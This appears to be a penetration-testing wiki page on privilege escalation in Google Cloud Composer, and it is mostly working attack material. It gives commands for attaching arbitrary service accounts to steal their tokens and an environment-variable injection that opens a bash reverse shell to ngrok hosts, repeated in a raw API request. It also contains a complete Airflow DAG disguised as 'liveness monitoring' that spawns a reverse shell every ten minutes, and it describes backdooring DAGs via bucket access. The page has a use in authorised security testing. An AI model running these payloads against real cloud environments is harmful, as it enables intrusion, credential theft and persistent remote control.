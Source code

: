 # GCP - Composer Privesc

## composer

More info in:

[[../gcp-services/gcp-composer-enum.md]]

### `composer.environments.create`

It's possible to **attach any service account** to the newly create composer environment with that permission. Later you could execute code inside composer to steal the service account token.

```bash
gcloud composer environments create privesc-test \
  --project "${PROJECT_ID}" \
  --location europe-west1 \
  --service-account="${ATTACK_SA}@${PROJECT_ID}.iam.gserviceaccount.com"
```

More info about the exploitation [**here**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/i-composer.environmets.create.sh).

### `composer.environments.update`

It's possible to update composer environment, for example, modifying env variables:

```bash
# Even if it says you don't have enough permissions the update happens
gcloud composer environments update \
    projects/<project-id>/locations/<location>/environments/<composer-env-name> \
    --update-env-variables="PYTHONWARNINGS=all:0:antigravity.x:0:0,BROWSER=/bin/bash -c 'bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/19990 0>&1' & #%s" \
    --location <location> \
    --project <project-id>

# Call the API endpoint directly
PATCH /v1/projects/<project-id>/locations/<location>/environments/<composer-env-name>?alt=json&updateMask=config.software_config.env_variables HTTP/2
Host: composer.googleapis.com
User-Agent: google-cloud-sdk gcloud/480.0.0 command/gcloud.composer.environments.update invocation-id/826970373cd441a8801d6a977deba693 environment/None environment-version/None client-os/MACOSX client-os-ver/23.4.0 client-pltf-arch/arm interactive/True from-script/False python/3.12.3 term/xterm-256color (Macintosh; Intel Mac OS X 23.4.0)
Accept-Encoding: gzip, deflate, br
Accept: application/json
Content-Length: 178
Content-Type: application/json
X-Goog-Api-Client: cred-type/sa
Authorization: Bearer [token]
X-Allowed-Locations: 0x0

{"config": {"softwareConfig": {"envVariables": {"BROWSER": "/bin/bash -c 'bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/1890 0>&1' & #%s", "PYTHONWARNINGS": "all:0:antigravity.x:0:0"}}}}
```

TODO: Get RCE by adding new pypi packages to the environment

### Download Dags

Check the source code of the dags being executed:

```bash
mkdir /tmp/dags
gcloud composer environments storage dags export --environment <environment> --location <loc> --destination /tmp/dags
```

### Import Dags

Add the python DAG code into a file and import it running:

```bash
# TODO: Create dag to get a rev shell
gcloud composer environments storage dags import --environment test --location us-central1 --source /tmp/dags/reverse_shell.py
```

Reverse shell DAG:

```python:reverse_shell.py
import airflow
from airflow import DAG
from airflow.operators.bash_operator import BashOperator
from datetime import timedelta

default_args = {
    'start_date': airflow.utils.dates.days_ago(0),
    'retries': 1,
    'retry_delay': timedelta(minutes=5)
}

dag = DAG(
    'reverse_shell',
    default_args=default_args,
    description='liveness monitoring dag',
    schedule_interval='*/10 * * * *',
    max_active_runs=1,
    catchup=False,
    dagrun_timeout=timedelta(minutes=10),
)

# priority_weight has type int in Airflow DB, uses the maximum.
t1 = BashOperator(
    task_id='bash_rev',
    bash_command='bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/14382 0>&1',
    dag=dag,
    depends_on_past=False,
    priority_weight=2**31 - 1,
    do_xcom_push=False)
```

### Write Access to the Composer bucket

All the components of a composer environments (DAGs, plugins and data) are stores inside a GCP bucket. If the attacker has read and write permissions over it, he could monitor the bucket and **whenever a DAG is created or updated, submit a backdoored version** so the composer environment will get from the storage the backdoored version.

Get more info about this attack in:

[[gcp-storage-privesc.md]]

### Import Plugins

TODO: Check what is possible to compromise by uploading plugins

### Import Data

TODO: Check what is possible to compromise by uploading data


